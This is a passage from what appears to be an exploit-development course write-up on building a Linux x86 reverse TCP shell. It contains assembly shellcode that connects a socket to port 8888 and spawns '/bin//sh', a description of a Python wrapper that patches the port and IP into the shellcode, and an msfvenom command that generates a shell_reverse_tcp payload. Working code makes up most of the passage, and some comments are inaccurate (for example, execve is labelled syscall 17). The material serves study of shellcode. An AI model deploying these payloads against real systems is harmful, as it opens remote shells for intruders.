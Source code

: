 ```assembly
    push word 0xb822 ; Port 8888, big endian
    push word 2 ; sin_family value is 2
    mov ecx, esp ; $ecx = 0x2, port, ip
    mov dl, 0x66 ; Address length is 102 in this case
    int 0x80 ; $eax = 0 now

    
    ; Execve
    push eax ; Push 0x0
    push 0x68732f2f ; Push '//sh' string
    push 0x6e69622f ; Push '/bin' string
    mov ebx, esp ; $ebx =  '/bin//sh' and 0x0
    push eax ; Push  0x0
    mov edx, esp ; $edx = 0x0
    push ebx ; Push $ebx =  '/bin//sh' and 0x0
    mov ecx, esp ; Address of stack, containing 0x0, '/bin//sh' and 0x0
    mov al, 11 ; Syscall is 17 = Execve
    int 0x80
```


## Creating the Python wrapper

Get the shellcode changing the "\" to "\\":

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a2_Shell_Reverse_Tcp/images/2.png)

Detect where the port (8888 or 0x22b8 in hexadecimal), the IP and the auxiliar value used to substract to the IP are being used:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a2_Shell_Reverse_Tcp/images/3.png)

Now we know the value in the original shellcode which must be substituted. After this, we just must take the input to the wrapper script, translate the port number to hexadecimal (in big endian format) and print the new shellcode with the port updated.


------------------------------------------------------------------

## Second approach: Ndisasm

A second approach, which can be considered easier, is to get the nasm file from the raw output from msfvenom:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8888 --platform=Linux -a x86 -f raw | ndisasm -u -
```

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a2_Shell_Reverse_Tcp/images/4.png)


It can be compiled:
